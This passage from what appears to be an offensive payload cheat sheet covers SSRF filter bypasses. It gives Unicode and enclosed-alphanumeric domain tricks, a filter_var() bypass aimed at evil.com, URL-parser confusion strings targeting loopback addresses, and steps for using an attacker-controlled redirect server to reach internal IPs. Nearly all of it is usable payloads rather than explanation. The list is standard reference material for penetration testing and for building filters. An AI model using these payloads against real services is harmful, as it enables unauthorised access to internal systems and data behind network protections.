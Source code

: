 ### Bypass using enclosed alphanumerics 

[@EdOverflow](https://twitter.com/EdOverflow)

```powershell
http://ⓔⓧⓐⓜⓟⓛⓔ.ⓒⓞⓜ = example.com

List:
① ② ③ ④ ⑤ ⑥ ⑦ ⑧ ⑨ ⑩ ⑪ ⑫ ⑬ ⑭ ⑮ ⑯ ⑰ ⑱ ⑲ ⑳ ⑴ ⑵ ⑶ ⑷ ⑸ ⑹ ⑺ ⑻ ⑼ ⑽ ⑾ ⑿ ⒀ ⒁ ⒂ ⒃ ⒄ ⒅ ⒆ ⒇ ⒈ ⒉ ⒊ ⒋ ⒌ ⒍ ⒎ ⒏ ⒐ ⒑ ⒒ ⒓ ⒔ ⒕ ⒖ ⒗ ⒘ ⒙ ⒚ ⒛ ⒜ ⒝ ⒞ ⒟ ⒠ ⒡ ⒢ ⒣ ⒤ ⒥ ⒦ ⒧ ⒨ ⒩ ⒪ ⒫ ⒬ ⒭ ⒮ ⒯ ⒰ ⒱ ⒲ ⒳ ⒴ ⒵ Ⓐ Ⓑ Ⓒ Ⓓ Ⓔ Ⓕ Ⓖ Ⓗ Ⓘ Ⓙ Ⓚ Ⓛ Ⓜ Ⓝ Ⓞ Ⓟ Ⓠ Ⓡ Ⓢ Ⓣ Ⓤ Ⓥ Ⓦ Ⓧ Ⓨ Ⓩ ⓐ ⓑ ⓒ ⓓ ⓔ ⓕ ⓖ ⓗ ⓘ ⓙ ⓚ ⓛ ⓜ ⓝ ⓞ ⓟ ⓠ ⓡ ⓢ ⓣ ⓤ ⓥ ⓦ ⓧ ⓨ ⓩ ⓪ ⓫ ⓬ ⓭ ⓮ ⓯ ⓰ ⓱ ⓲ ⓳ ⓴ ⓵ ⓶ ⓷ ⓸ ⓹ ⓺ ⓻ ⓼ ⓽ ⓾ ⓿
```

### Bypass using unicode

In some languages (.NET, Python 3) regex supports unicode by default.
`\d` includes `0123456789` but also `๐๑๒๓๔๕๖๗๘๙`.


### Bypass filter_var() php function

```powershell
0://evil.com:80;http://google.com:80/ 
```

### Bypass against a weak parser

by Orange Tsai ([Blackhat A-New-Era-Of-SSRF-Exploiting-URL-Parser-In-Trending-Programming-Languages.pdf](https://www.blackhat.com/docs/us-17/thursday/us-17-Tsai-A-New-Era-Of-SSRF-Exploiting-URL-Parser-In-Trending-Programming-Languages.pdf))

```powershell
http://127.1.1.1:80\@127.2.2.2:80/
http://127.1.1.1:80\@@127.2.2.2:80/
http://127.1.1.1:80:\@@127.2.2.2:80/
http://127.1.1.1:80#\@127.2.2.2:80/
```

![https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Request%20Forgery/Images/WeakParser.png?raw=true](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Request%20Forgery/Images/WeakParser.jpg?raw=true)

### Bypassing using a redirect
[using a redirect](https://portswigger.net/web-security/ssrf#bypassing-ssrf-filters-via-open-redirection)

```powershell
1. Create a page on a whitelisted host that redirects requests to the SSRF the target URL (e.g. 192.168.0.1)
2. Launch the SSRF pointing to  vulnerable.com/index.php?url=http://YOUR_SERVER_IP
vulnerable.com will fetch YOUR_SERVER_IP which will redirect to 192.168.0.1
3. You can use response codes [307](https://developer.mozilla.org/en-US/docs/Web/HTTP/Status/307) and [308](https://developer.mozilla.org/en-US/docs/Web/HTTP/Status/308) in order to retain HTTP method and body after the redirection.
```
